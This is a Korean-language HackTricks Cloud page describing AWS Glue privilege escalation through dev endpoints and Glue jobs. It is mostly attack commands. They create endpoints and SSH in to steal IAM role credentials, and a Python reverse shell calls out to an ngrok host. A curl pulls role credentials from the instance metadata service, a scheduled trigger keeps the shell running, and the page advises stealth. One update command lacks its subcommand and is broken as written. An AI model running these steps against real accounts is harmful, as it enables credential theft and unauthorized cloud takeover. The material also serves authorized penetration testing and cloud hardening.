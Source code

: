 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

이 권한을 가진 사용자는 **새로운 AWS Glue 개발 엔드포인트를 설정할 수 있으며**, **특정 권한을 가진 Glue에서 가정할 수 있는 기존 서비스 역할을 이 엔드포인트에 할당할 수 있습니다.**

설정 후, **공격자는 엔드포인트의 인스턴스에 SSH로 접속하여**, 할당된 역할의 IAM 자격 증명을 탈취할 수 있습니다:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
은폐 목적을 위해 Glue 가상 머신 내부의 IAM 자격 증명을 사용하는 것이 권장됩니다.

**잠재적 영향:** 지정된 Glue 서비스 역할로의 권한 상승.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

이 권한이 있는 사용자는 **기존 Glue 개발** 엔드포인트의 SSH 키를 **변경할 수 있어** SSH 접근을 가능하게 합니다. 이를 통해 공격자는 엔드포인트에 연결된 역할의 권한으로 명령을 실행할 수 있습니다:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**잠재적 영향:** 사용된 Glue 서비스 역할에 대한 권한 상승.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`**과 **`glue:CreateJob` 또는 `glue:UpdateJob`** 중 하나, 그리고 **`glue:StartJobRun` 또는 `glue:CreateTrigger`** 중 하나를 결합한 사용자는 **AWS Glue 작업**을 **생성하거나 업데이트**할 수 있으며, 임의의 **Glue 서비스 계정**을 연결하고 작업 실행을 시작할 수 있습니다. 작업의 기능에는 임의의 Python 코드를 실행하는 것이 포함되며, 이를 이용해 리버스 셸을 설정할 수 있습니다. 이 리버스 셸은 Glue 작업에 연결된 역할의 **IAM 자격 증명**을 유출하는 데 사용될 수 있으며, 이는 해당 역할의 권한에 따라 잠재적인 무단 접근 또는 행동으로 이어질 수 있습니다.
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**잠재적 영향:** 지정된 glue 서비스 역할로의 권한 상승.

### `glue:UpdateJob`

업데이트 권한만으로도 공격자는 이미 연결된 역할의 IAM 자격 증명을 탈취할 수 있습니다.

**잠재적 영향:** 연결된 glue 서비스 역할로의 권한 상승.

## 참조

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
